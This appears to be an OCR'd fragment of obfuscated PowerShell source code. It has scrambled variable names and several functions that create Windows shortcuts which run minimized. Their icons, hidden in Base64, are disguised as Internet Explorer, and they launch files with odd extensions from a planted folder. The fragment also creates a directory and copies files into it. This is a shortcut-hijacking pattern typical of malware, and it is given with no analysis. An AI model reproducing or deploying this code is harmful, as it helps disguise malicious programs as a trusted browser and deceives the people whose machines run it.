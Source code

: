     ${/=\/\__/=\/=\/=\_}.Arguments = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.at"  
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}


function _____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\///////////////////////
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_/|\_/|////\__|/_|\\\\\\/|_}"     
    ${/=\/\__/=\/=\/=\_}.Arguments = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.bai"  
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}

${TESTE} = "${_sev_}"
New-Item ${TESTE} -ItemType Directory
Copy-Item -Path "${_fiv_}" -Destination "${TESTE}${_six_}" -Recurse
function _____/\_/\/\_/\/=\\\\\\\\\\/////\\\\\\\\\\\\\\\\\\\\\\\____\\\
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}i7${_ex_}"     
    ${/=\/\__/=\/=\/=\_}.Arguments = ""  
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "${_\\///////////////////////_}" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}
